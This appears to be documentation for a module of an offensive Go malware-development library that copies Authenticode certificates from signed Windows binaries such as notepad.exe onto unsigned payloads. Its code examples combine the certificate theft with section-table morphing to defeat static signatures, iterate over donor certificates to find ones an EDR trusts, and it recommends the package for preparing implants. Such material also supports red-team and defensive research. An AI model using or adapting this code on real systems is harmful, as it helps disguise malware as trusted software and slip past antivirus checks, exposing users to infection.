

# PE Certificate Theft

[<- Back to PE Overview](README.md)

**MITRE ATT&CK:** [T1553.002 - Subvert Trust Controls: Code Signing](https://attack.mitre.org/techniques/T1553/002/)
**Package:** `pe/cert`
**Platform:** Cross-platform (PE byte manipulation)
**Detection:** Low

---

## Primer

Windows uses Authenticode signatures to verify that executables come from a trusted publisher. This technique copies the digital certificate from a legitimately signed PE (like a Microsoft binary) onto an unsigned payload. The signature won't verify cryptographically, but many security tools only check for certificate *presence*, not *validity*.

---

## How It Works



**Key detail:** The Security Directory's VirtualAddress field is a *file offset* (not an RVA), which is unique among PE data directories.

---

## Usage

```go
import "github.com/oioio-space/maldev/pe/cert"

// Check if a PE has a certificate
has, _ := cert.Has(`C:\Windows\System32\notepad.exe`)

// Read certificate from signed PE
c, _ := cert.Read(`C:\Windows\System32\notepad.exe`)

// Copy to unsigned payload
cert.Write(`C:\Temp\payload.exe`, c)

// Or copy directly
cert.Copy(`C:\Windows\System32\notepad.exe`, `C:\Temp\payload.exe`)

// Strip certificate from a PE
cert.Strip(`C:\Temp\payload.exe`, "")
```

---

## Combined Example

Morph the loader's section table so UPX/Go fingerprints are gone, then
graft the Authenticode certificate from a trusted Microsoft binary onto
the result — the output passes `presence-only` signature checks while
carrying a mutated section layout that defeats static signatures.

```go
package main

import (
    "os"

    "github.com/oioio-space/maldev/pe/cert"
    "github.com/oioio-space/maldev/pe/morph"
)

func main() {
    // 1. Read the loader PE.
    raw, err := os.ReadFile(`C:\Temp\loader.exe`)
    if err != nil {
        panic(err)
    }

    // 2. Morph section names to defeat UPX / Go-specific signatures.
    morphed, err := morph.UPXMorph(raw)
    if err != nil {
        panic(err)
    }
    if err := os.WriteFile(`C:\Temp\loader.exe`, morphed, 0o644); err != nil {
        panic(err)
    }

    // 3. Steal the Authenticode cert from a signed Microsoft binary and
    //    append it to the morphed loader. Signature won't verify against
    //    Microsoft's CA, but many defender tools only check for
    //    certificate presence, not chain validity.
    if err := cert.Copy(
        `C:\Windows\System32\notepad.exe`,
        `C:\Temp\loader.exe`,
    ); err != nil {
        panic(err)
    }
}
```

Layered benefit: `pe/morph` breaks static byte-pattern matches on the
section table, and `pe/cert` adds the "signed" metadata that naive AV
uses as a quick-trust heuristic — neither alone would survive modern
triage, but together they raise the bar enough to slip past automated
first-pass scanning.

---

## Advanced — strip, swap, and re-attach

When the operator wants to swap the donor cert (e.g. test which donors
get whitelisted by an EDR), the round-trip is `Strip → Read → Write`.
`Strip`'s second argument is an optional path to save the removed cert
bytes for re-application:

```go
package main

import (
	"fmt"
	"log"
	"os"

	"github.com/oioio-space/maldev/pe/cert"
)

func main() {
	target := `C:\Temp\loader.exe`

	// Cache the existing cert to disk before overwriting.
	if err := cert.Strip(target, `C:\Temp\old.cert`); err != nil { log.Fatal(err) }

	// Try a candidate donor (chrome.exe / signtool.exe / etc.).
	candidates := []string{
		`C:\Windows\System32\notepad.exe`,
		`C:\Program Files\Google\Chrome\Application\chrome.exe`,
		`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`,
	}
	for _, donor := range candidates {
		fmt.Printf("trying donor: %s\n", donor)
		if err := cert.Copy(donor, target); err != nil {
			fmt.Printf("  copy failed: %v\n", err)
			continue
		}
		// ... run target through the AV under test, observe verdict ...
	}

	// Restore original if every candidate burned.
	saved, err := os.ReadFile(`C:\Temp\old.cert`)
	if err == nil {
		_ = cert.Write(target, &cert.Certificate{Raw: saved})
	}
}
```

`cert.Has` is the cheap `bool` probe — it doesn't parse the cert, only
checks whether the Security Directory entry is non-zero. Useful for
filtering a directory walk to "PEs that already carry a signature".

---

## API Reference

```go
type Certificate struct {
    Raw []byte // raw WIN_CERTIFICATE bytes (header + signature blob)
}

// Has returns true if the Security Directory entry is populated. Cheapest
// probe — does not parse the certificate.
func Has(pePath string) (bool, error)

// Read parses the Security Directory entry and returns the embedded cert.
// Returns ErrNoCertificate if the PE has no Security Directory.
func Read(pePath string) (*Certificate, error)

// Write appends c to pePath. Pads the file to 8-byte alignment, writes the
// WIN_CERTIFICATE blob, and patches the Security Directory header in place.
func Write(pePath string, c *Certificate) error

// Copy is Read(srcPE) + Write(dstPE, …) in a single call.
func Copy(srcPE, dstPE string) error

// Strip zeros the Security Directory entry on pePath. If dst is non-empty,
// the removed cert bytes are written there for later restoration.
func Strip(pePath, dst string) error

// Export writes the cert's raw bytes to disk so they can be re-applied
// later via Import + Write.
func (c *Certificate) Export(path string) error
func Import(path string) (*Certificate, error)
```

The package is **cross-platform**: cert blobs are pure-byte PE
manipulation, no Win32 APIs involved. Use it on a Linux build host to
prepare implants without round-tripping through `signtool.exe`.
